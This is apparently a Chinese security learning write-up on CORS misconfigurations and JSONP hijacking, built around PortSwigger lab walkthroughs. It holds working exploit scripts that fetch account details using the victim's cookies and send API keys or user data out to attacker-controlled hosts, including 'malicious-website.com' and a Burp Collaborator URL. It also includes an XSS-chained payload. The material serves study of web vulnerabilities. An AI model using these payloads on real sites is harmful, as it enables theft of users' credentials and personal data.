


近期在src挖掘中经常看到大佬们提到cors,josnp一直不太理解此类漏洞。特此学习记录一下，如有错误之处还望师傅们斧正。


## 1.跨域资源共享（cors)

### 跨域资源共享(cors)原理：

在讲cors之前我们先来了解一下同源策略（sop）。

##### 1.1 同源策略

**浏览器的安全基石是同源策略。同源策略保证了同一个浏览器打开不同网站，不同网站之间不会相互影响。**

列如：张三登陆了某银行网站，浏览器存储了他的cookie。而这时他又打开了另一个小网站，该小网站会记录用户的cookie。如果没有同源策略，他就会记录浏览器存储的cookie，此时银行网站的cookie也被记录，从而造成银行用户cookie泄露。


同源策略中的同源是指：

三个同源：**同协议，同域名，同端口** ，例如：

```
https:www.test.com 和 http:www.test.com (不同源，协议不同)
http:www.test.com  和 http:login.test.com (不同源，域名不同)
http:www.test.com:80 和 http:www.test.com:8080 (不同源，端口不同)
```


##### 1.2 同源策略(sop)的**窗口**跨域资源共享(cors)

但是安全和方便总是难两全。张三新开发了一个网站A，要从网站B上获取数据，但是因为同源策略的存在他获取不了B网站上的数据。此时他通过搜索发现一个叫做跨域资源共享的东西经过一通配置，他成功获取到了B网站的数据：

他的配置如下：

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

这个配置在满足要求的同时也造成了严重的安全问题，**Access-Control-Allow-Origin: * ** 通配符*允许A网站访问的同时也允许了其他任意网站的访问。假设一个攻击过程：

网站C的cors配置存在缺陷，被一个黑客发现，该黑客通过友链申请，给站长发送了一个网站链接，站长为了确认友链网站，打开了网站链接，而该网站中部署了黑客精心构造的恶意脚本，能够自动获取存储网站C中的cookie信息，此时黑客就获取到了站长的cookie信息...


**配置讲解：**

**Access-Control-Allow-Origin：*** 
web浏览器将Access-Control-Allow-Origin与请求网站的来源进行比较，如果匹配则允许访问响应


例如：Access-Control-Allow-Origin：http://www.test.com

此时网站login.test.com（小A)向www.test.com(小B）发起 请求，小B一看请求源（origin）和自己的配置不一样，知道小A可能是个坏蛋，照例将请求返回给小A，但是响应中不含有Access-Control-Allow-Origin标头，万能的浏览器一看跨域请求，响应中还没有Access-Control-Allow-Origin字段，立马报错。坏蛋小A就获取不到小B的数据了...

更多详细讲解可参考阮老师文章：https://www.ruanyifeng.com/blog/2016/04/cors.html


**Access-Control-Allow-Credentials: true** 
该字段可选。它的值是一个布尔值，表示是否允许发送Cookie。默认情况下，Cookie不包括在CORS请求之中。

设为`true`，即表示服务器明确许可，Cookie可以包含在请求中，一起发给服务器。这个值也只能设为`true`，如果服务器不要浏览器发送Cookie，删除该字段即可。


**通过前面的介绍我们对cors也知名知意了，这时问题就出现了，这漏洞该怎么挖呢？**

这时就要了解一下burpsuite网站的实验室，该实验室中存在多中漏洞实验，在学习漏洞知识的同时也能实战学习漏洞利用技巧，接下来就简单记录一下实验过程。

实验链接：https://portswigger.net/web-security/cors

#### 实战练习：

##### 1.1 来源（origin)可任意更改的cors漏洞



该实验个人账户界面存在账户的api密钥，我们的目标就是获取到用户的api密钥


通过观察网站源码，发现api密码是通过一个ajax接口返回到页面的。**直接访问接口，并将请求来源跟改为任意网站可以获取到密钥，说明存在cors漏洞**


此时我们有一个攻击思路：

部署一个恶意脚本到我们的网站上，并将该网址链接发送给要攻击的小王，小王只要访问了我们的链接，我们即可在web日志中获取到小王的api密钥

恶意脚本：

```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
// 打开api密钥链接
   req.open('get','https://ac0c1f2b1efc321180e1a18c007100d3.web-security-academy.net/accountDetails',true);
// 设置为true可以保证，请求的时候携带cookie
   req.withCredentials = true;
   req.send();

//将访问api密钥得到的数据，拼接到url中访问自己服务，即可在服务器web日志中找到api密钥信息
   function reqListener() {
    location='/log?key='+this.responseText;
   };
</script>
```

获取到的密钥：




##### 1.2 来源（origin) 可为null的cors漏洞

在某些应用程序中可能会将null列入白名单，以支持本地应用程序的开发。

origin标头不可以设置为任意标头了，尝试设置为null，此时可以获取到数据，说明存在请求来源可为null的cors漏洞


本地html测试：

测试exp:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac8d1f4c1ebc2af2806b9d9d00df0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

console.log(this.responseText);
</script>"></iframe>
```


此时我们继续采用实验一的攻击思路：

部署一个恶意脚本到我们的网站上，并将该网址链接发送给要攻击的小王，小王只要访问了我们的链接，我们即可获取到小王的api密钥

编写exp:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac8d1f4c1ebc2af2806b9d9d00df0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    //恶意网站
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```


##### 1.3 利用信任子域的xss获取主域的敏感信息

有些服务器的配置为：

```javascript
Access-Control-Allow-Origin: http://*.test.com
```

这个配置乍一看没问题，信任自己的子域不是很正常吗，但是子域成百上千的大网站中，子域就特别容易出问题，找个xss既有可能严重威胁到主站。而且该配置也不符合最小信任原则，通配符*不能随便用，应该设置为固定值。例如：*

`Access-Control-Allow-Origin: http://login.test.com` 此时只要保证login.test.com没问题即可确保主站不会遭受cors攻击

在该实验三中将来源（origin)设置为任意子域，如：


设置为不存在的example子域，依旧可以访问敏感数据


正好该网站的检查库存会将单价信息返回到子域，并且productId参数存在xss漏洞


所以想到一个利用链：

```
子域触发xss--->访问主域敏感信息--->将敏感信息保存到任意网站
```


exp:

```javascript
<script>
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```


exp解释：

```javascript
<script>
//子域触发xss，xss访问主域敏感信息
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/
   ?productId=4
   //采用原生js http请求将获取到的内容，保存到主机
   <script>var req = new XMLHttpRequest(); 
   req.onload = reqListener; 
   //访问敏感信息
   req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); 
   req.withCredentials = true;
   req.send();
function reqListener() {
       //携带敏感信息，get请求访问主机，主机log日志即可出现用户apikey
   location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };
   %3c/script>
   &storeId=1"
</script>
```


**跨域除了cors外还有一种非官方的方法jsonp，jsonp 是 JSON with padding（填充式 JSON 或参数式 JSON）的简写。**

jsonp通过动态创建<script>标签，然后利用<script>的src属性不受同源策略的约束来获取跨域数据。

jsonp在造成方便的同时也造成了一定的安全的问题。jsonp劫持最早在08年提出，早期各大厂商并不重视此类漏洞，但在个人信息保护严密的现在，jsonp劫持带来的信息泄露问题，促使各大src厂商开始重视jsonp劫持漏洞。以下简要分析jsonp劫持原理，很多不足之处，还望大佬们斧正。

## 2.jsonp劫持

### 2.1 漏洞场景模拟：

某司因为业务需求，需要网站B从网站A中获取json数据，所以他们在A中实现了一个jsonp接口


接口代码如下：

```php

<?php
header('Content-type: application/json');
//获取回调函数名
$jsonpCallback = htmlspecialchars($_REQUEST ['jsonp']);
//json数据
$json_data = '["张三","12011012110","男","浙江杭州"]';
//输出jsonp格式的数据
echo $jsonpCallback . "(" . $json_data . ")";
?>
```

网站B代码如下：

```html

<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>JSONP 实例</title>
</head>
<body>
<div id="divCustomers"></div>
<script type="text/javascript">
function callback(result, methodName)
{
    var html = '<ul>';
    for(var i = 0; i < result.length; i++)
    {
        html += '<li>' + result[i] + '</li>';
    }
    html += '</ul>';
    document.getElementById('divCustomers').innerHTML = html;
}
</script>
<script type="text/javascript" src="http://127.0.0.1/jsonp.php?jsonp=callback"></script>
</body>
</html>
```

效果如下：


此时通过jsonp接口，实现了跨域传输。然而该跨域传输过程存在很大的安全安全问题，因为对json参数调用者没有任何限制

### 2.2 漏洞利用流程：

这里使用burp的collaborator client功能来接收http记录，主要是为了实验，也演示一下collaborator client的强大功能 ，在实际利用中可以直接向本地127.0.01发送请求，在web日志记录中查看即可

2.2.1 打开collaborator client获取请求链接


2.2.2 复制链接填入脚本，点击Poll now开始循环监听http请求。

```javascript
<h1>jsonp exp</h1>

<script type="text/javascript">
  function callback(result)
{
   var req = new XMLHttpRequest();

    //向burp的collaborator client发送请求，并携带获取到json数据
   req.open('get','https://r2u9atjp588pt96t5cpef5o40v6lua.burpcollaborator.net/?userinfo='+result,true);
   req.withCredentials = true;
   req.send();
}
</script>
//jsonp接口
<script type="text/javascript" src="http://127.0.0.1/jsonp.php?jsonp=callback"></script>
```

2.2.3 将脚本部署到恶意网站，并将网站链接发送给受害者，受害者访问链接，即可在collaborator client中获取到用户的json数据。


### 2.3  jsonp挖掘思路

知道了应用场景，也知道利用流程，此时就应该思考怎么利用jsonp漏洞了


工具挖掘可以使用xray，xray自带有jsonp漏洞检测功能，监听端口，被动扫描就完事

手工挖掘也有一些小技巧，大佬总结的jsonp接口常用参数：

```
cb
callback
jsoncb
jsonpcb
jsonp
jQuery
jsoncallback
jsonpcallback
jsoncall
jsonpcall
```

访问网站首页


1. 打开network

2. 勾选Preserver log

3. 在搜索框中搜索常用jsonp参数

   

搜索到带有相关参数的链接，即可使用exp验证是否存在jsonp泄露。

验证poc:

```html

<!DOCTYPE html>
<html>
<head>
 <title>jsonp劫持验证示例</title>
 <meta charset="utf-8">
    <style type="text/css">
        table{
            display:inline
        }
</style>
</head>
<body>
<script src='https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js'></script>
<script type="text/javascript">
function callback(json){
    console.log(json);
}
var s=document.createElement('script');
s.type="text/javascript";
    //漏洞可能存在点
s.src='http://127.0.0.1/jsonp.php?jsonp=callback';
document.body.appendChild(s);
</script>
</body>
</html>
```


console.log获取到数据，说明存在该漏洞


参考链接：

https://blog.knownsec.com/2015/03/jsonp_security_technic/

https://mp.weixin.qq.com/s/SuEpF3RIZIv2CcIUok8SoQ

[https://www.k0rz3n.com/2018/06/05/%E7%94%B1%E6%B5%85%E5%85%A5%E6%B7%B1%E7%90%86%E8%A7%A3JSONP%E5%B9%B6%E6%8B%93%E5%B1%95/](https://www.k0rz3n.com/2018/06/05/由浅入深理解JSONP并拓展/)